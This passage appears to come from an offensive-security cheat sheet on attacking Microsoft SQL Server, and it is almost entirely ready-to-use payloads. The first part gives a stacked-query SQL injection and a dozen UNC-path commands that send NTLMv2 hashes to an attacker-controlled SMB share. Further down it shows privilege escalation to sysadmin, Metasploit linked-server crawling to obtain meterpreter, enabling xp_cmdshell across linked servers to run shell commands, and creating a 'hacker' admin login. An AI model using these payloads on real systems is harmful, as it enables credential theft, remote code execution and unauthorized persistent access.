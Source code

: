 
### MSSQL UNC Path

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

```sql
xp_dirtree '\\attackerip\file'
xp_fileexist '\\attackerip\file'
BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
RESTORE LABELONLY FROM DISK = '\\attackerip\file'
RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'
```


## MSSQL Make user DBA (DB admin)

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## MSSQL Trusted Links

> The links between databases work even across forest trusts.

```powershell
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter sessio
```

Manual exploitation

```sql
-- find link
select * from master..sysservers

-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```
